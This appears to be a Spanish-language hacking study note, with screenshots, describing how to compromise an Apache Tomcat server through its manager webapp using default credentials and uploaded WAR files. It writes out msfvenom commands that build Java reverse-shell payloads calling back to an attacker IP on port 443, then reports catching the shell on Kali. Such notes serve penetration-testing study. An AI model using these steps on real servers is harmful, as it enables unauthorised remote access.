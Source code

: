 - Explotar servidor Apache tomcat.
- Por lo general esta vulnerabilidad se puede encontrar en el puerto 8080, ahí mismo vemos que es un apache tomcat.
![[Pasted image 20241220151757.png]]
- Vamos a la pagina
- Cuando uno instala un ==tomcat==, por defecto sale esto:
![[Pasted image 20241220151912.png]]
- Si apretamos en ==manager webapp==, nos saldrá un login donde se podría configurar el ==tomcat==.
![[Pasted image 20241220152047.png]]
- Cuando se instala un ==tomcat==, por defecto ya viene con unas credenciales por defecto.
- Para saber la lista de estas credenciales vamos a ingresar a una URL lo siguiente:
```
hacktricks apache tomcat default credentials
```
![[Pasted image 20241220152411.png]]
- Tenemos las posibles credenciales.
- Ya estando dentro, tenemos un lugar donde subir archivos.
![[Pasted image 20241220152645.png]]
- Vamos a hacer un paloads con ==msfvenom==.
```
msfvenom -p java/shell_reverse_tcp LHOST=(IP_ATACANTE) LPORT=443 -f war -o (NOMBRE)
```
==IMPORTANTE, APACHE FUNCIONA CON JAVA==
![[Pasted image 20241220153257.png]]
- Listo el payloads.
- Es recomendado crear 2, así si uno no funciona el otro lo ara.
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP_ATACANTE) LPORT=443 -f war -o (NOMBRE)
```
- La diferencia es que la primera es /shell y el segundo es /jsp.
![[Pasted image 20241220153608.png]]
- Probamos.
![[Pasted image 20241220153703.png]]
- Subimos los dos payloads, vamos a probar cual nos sirve.
- Dejamos Kali en escucha.
- El primero si nos dejo hacer el reverse y el segundo, no.
![[Pasted image 20241220153909.png]]